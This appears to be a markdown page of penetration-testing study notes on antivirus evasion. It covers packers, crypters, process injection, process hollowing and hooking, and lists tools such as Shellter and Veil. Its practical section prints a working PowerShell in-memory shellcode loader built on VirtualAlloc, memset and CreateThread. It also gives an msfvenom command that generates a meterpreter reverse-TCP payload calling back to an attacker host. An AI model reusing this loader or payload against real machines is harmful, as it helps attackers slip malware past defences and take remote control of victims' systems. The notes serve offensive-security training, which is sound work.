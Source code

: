 # AV Evasion

## On-Disk Evasion
- Packers

Packers generate an executable that is smaller than the original, and it has the same functionalities. The result file has a new signature and as a result, can effectively bypass older and more simplistic AV scanners. The use of **UPX** and other popular packers alone is not sufficient for evasion of modern AV scanners

- Obfuscators

Obfuscators reorganize and mutate code in a way that makes it more difficult to reverse-engineer. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions or “dead code”,412 splitting or reordering functions, and so on.

- Crypters

Crypters alters the execuatble code in a cryptographic way, adding a decrypting stub that restores the original code upon execution. This decryption happens in-memory, leaving only the enctypted code on-disk. Encryption is one of the most effective AV evasion technique.

- Software protectors

Anti-reversing, anti-debugging, virtual machine emulation detection... Software protectors were designed for legitimate purposes but can also be used to bypass AV detection.
**The Enigma Protector** is a free tool for protecting our scripts.

## In-Memory Evasion
In-Memory Injections, also known as PE injection is a popular technique used to bypass AVs products. This technique focuses on the manipulation of volatile memory. One of the benefits of this technique is that does not override any files to disk, which is one of the main areas of focus for most AV products.

- Remote Process Memory Injection

This technique attemps to inject the payload into another valid PE that is not malicious. Yhe most common method of doing this is by leveraging a set of Windows APIs.
First, we would use the *OpenProcess* function to obtain a valid *HANDLE* to a target process that we have permissions to access. After obtaining the*HANDLE*, we would 
allocate memory in the context of that process by calling Windows API such as *VirtualAllocEx*. Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly
allocated memory using *WriteProcessMemory*. After the payload has been successfully copied, it is usually executed in memory in a separate thread using the *CreateRemoteThread* API.

- Reflective DLL Injection

Unlike regular DLL injection, which implies loading a malicious DLL from disk using the *LoadLibrary* API, this technique attemps to load a DLL stored by the 
atacker in the process memory.

- Process Hollowing

When using process hollowing to bypass AV software, attackers first launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from
memory and replaced with a malicious executable image. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.

- Inline hooking

As the name suggests, this technique involves modifying memory and introducing a hook (instructions that redirect the code execution) into a function to point the execution flow 
to out malicious code. Upon executing our malicious code, the flow will return back to the modified function and resume rexecution, appearing as if only the original code had 
executed.

## Practical Example
We will use **Avira AV** in our Windows vitmim machine.

- PowerShell In-Memory Injection
Depending on our target environment, we might be able to bypass AV products with the help of PowerShell

A very powerful feature of PowerShell is its ability to interact with the Windows API. This allows us to implement in-memory injection process in a PowerShell script. One of the main benefits of executing a script rather than PE is the fact that is not difficult for AV manufacters to determine if the script is malicious or not as it's run inside an interpreter
and the script itself isn't executable code. 

Furthermore, even if the script is marked as malicious, it can easily be altered. AV software will often look at variable names, comments, and logic, all of which can be changed
without the nedd to re-compile anything.

The script that performs in-memory injection:
```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat
ionType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = 
 Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc
[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
The script starts by importing *VirtualAlloc428* and *CreateThread429* from kernel32.dll as well as 
memset from **msvcrt.dll**. These functions will allow us to allocate memory, create an execution 
thread, and write arbitrary data to the allocated memory, respectively. Once again, notice that we 
are allocating the memory and executing a new thread in the current process (powershell.exe), 
rather than a remote one. The script then allocates a block of memory using *VirtualAlloc*, takes each byte of the payload 
stored in the *$sc* byte array, and writes it to our newly allocated memory block using *memset*. As a final step, our in-memory written 
payload is executed in a separate thread using *CreateThread*.

Missing from the script is the payload of our choice, which can be generated using **msfvenom**.
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
 ```
 
 ## Tools
 
 - [shellter](https://github.com/ParrotSec/shellter): It is a dynamic shellcode injection tool, and the first truly dynamic PE (portable executable) infector ever created.
 - DSplit: It splits an executable in order to detect AV Signatures. This way we can remove them and execute the file on the target machine.
 - [py2exe](https://github.com/py2exe/py2exe): This tool allow us to convert a Python script into an executable.
 - [Veil](https://github.com/Veil-Framework/Veil): It is a tool designed to generate payloads that bypass common anti-virus solutions.
 - [AppLocker Bypass](https://github.com/api0cradle/UltimateAppLockerByPassList): Most common and known techniques to bypass AppLocker



